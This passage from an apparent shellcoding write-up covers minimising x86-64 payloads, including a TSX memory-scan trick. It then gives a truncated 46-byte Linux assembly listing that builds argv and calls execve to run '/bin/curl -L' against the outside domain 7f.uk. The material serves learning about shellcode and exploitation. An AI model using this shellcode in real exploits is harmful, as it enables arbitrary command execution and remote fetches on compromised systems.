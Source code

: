 The terms didn't mention whether the program should exist or not - for all means and purposes I could've let it crash, but I've decided to hang forver using `jmp $`.  
With that, I got a shellcode of `62 bytes`.  
Also, apparently `gdb` does not like debugging `TSX` - even doing `si` on `xbegin` sometimes acts as if we're doing an entire transaction iteration!  
Lastly, this takes *a lot of time* to run (like 15 minutes on a modern PC) due to exhausing the entire memory space (but we increase by `0x1000` which should be okay).  
One optimization we could've done is using the `cmpsd` or `scasd`, but it'd be even slower (since we move byte-by-byte) and only save `4` bytes in total (taking `cld` instruction into account).

### Shellcoding with syscall
On Linux, one can simply use the `syscall` numbers freely, which makes shellcoding much easier on Linux (I've already talked about Windows shellcoding [here](https://github.com/yo-yo-yo-jbo/msf_shellcode_analysis/)).  
Well, the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) syscall is just around the corner! But we need to prepare `argv` for it:

```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

The good news:
1. No need to locate anything in memory - the `execve` syscall number is well known (`59`).
2. No need to hang the program - `execve` shouldn't return in case of success.

The bad news:
1. `execve` should have the `pathname` be an absolute path - writing `curl` doesn't help - we need `/bin/curl`.
2. Preparing `argv` is necessary and means pointing to an array of pointers (since strings are pointers too).

Here's what I got with only `46` bytes:

```assembly
[BITS 64]

; Constants
EXECVE_SYSCALL_NUM EQU 0x3B

        ; Jump over argv
        call after_argv

        ; argv in reverse order
        db `7f.uk\x00`
        db `-L\x00`
        db `/bin/curl\x00`

after_argv:

        ; Save argv pointer
        pop rdi

        ; Set the syscall number into RAX
        push EXECVE_SYSCALL_NUM
        pop rax

        ; Set envp (from RAX to RDX)
        cdq

        ; Prepare argv in stack
        push rdx
        push rdi
        add rdi, 6
        push rdi
        add rdi, 3
        push rdi        ; At this point RDI also points to main executable
```